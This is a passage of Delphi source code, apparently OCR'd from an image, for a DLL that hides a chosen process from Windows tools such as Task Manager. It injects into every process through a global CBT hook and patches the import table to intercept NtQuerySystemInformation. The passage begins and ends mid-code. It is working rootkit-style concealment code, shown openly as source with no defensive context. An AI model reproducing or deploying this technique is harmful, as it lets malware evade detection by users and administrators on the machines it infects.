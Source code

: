         repeat
         ReplaceIATEntryInOneMod('ntdll.dll',@MyNtQuerySystemInfo,addr_NtQuerySystemInformation,me32.hModule);
        until not Module32Next(hSnapShot,me32);
      finally
       CloseHandle(hSnapShot);
      end;
    end;
    var HookHandle: THandle;
    function CbtProc(code: integer; wparam: integer; lparam: integer):Integer; stdcall;
    begin
     Result:=0;
    end;
    procedure InstallHook; stdcall;
    begin
     HookHandle:=SetWindowsHookEx(WH_CBT, @CbtProc, HInstance, 0);
    end;
    var hFirstMapHandle:THandle;
    function HideProcess(pid:DWORD; HideOnlyFromTaskManager:BOOL):BOOL; stdcall;
    var addrMap: PDWORD;
           ptr2: PBOOL;
    begin
     mypid:=0;
     result:=false;
     hFirstMapHandle:=CreateFileMapping($FFFFFFFF,nil,PAGE_READWRITE,0,8,'NtHideFileMapping');
      if hFirstMapHandle=0 then exit;
     addrMap:=MapViewOfFile(hFirstMapHandle,FILE_MAP_WRITE,0,0,8);
      if addrMap=nil then
       begin
        CloseHandle(hFirstMapHandle);
        exit;
       end;
     addrMap^:=pid;
     ptr2:=PBOOL(DWORD(addrMap)+4);
     ptr2^:=HideOnlyFromTaskManager;
     UnmapViewOfFile(addrMap);
     InstallHook;
     result:=true;
    end;
    exports
     HideProcess;
    var
     hmap: THandle;
    procedure LibraryProc(Reason: Integer);
    begin
     if Reason = DLL_PROCESS_DETACH then
      if mypid > 0 then
       UninterceptFunctions()
     else
      CloseHandle(hFirstMapHandle);
    end;
    begin
     hmap:=OpenFileMapping(FILE_MAP_READ,false,'NtHideFileMapping');
      if hmap=0 then exit;
      try
       mapaddr:=MapViewOfFile(hmap,FILE_MAP_READ,0,0,0);
        if mapaddr=nil then exit;
       mypid:=mapaddr^;
       hideOnlyTaskMan:=PBOOL(DWORD(mapaddr)+4);
        if hideOnlyTaskMan^ then
         begin
          fname:=allocMem(MAX_PATH+1);
          GetModuleFileName(GetModuleHandle(nil),fname,MAX_PATH+1);
           if not (ExtractFileName(fname)='taskmgr.exe') then exit;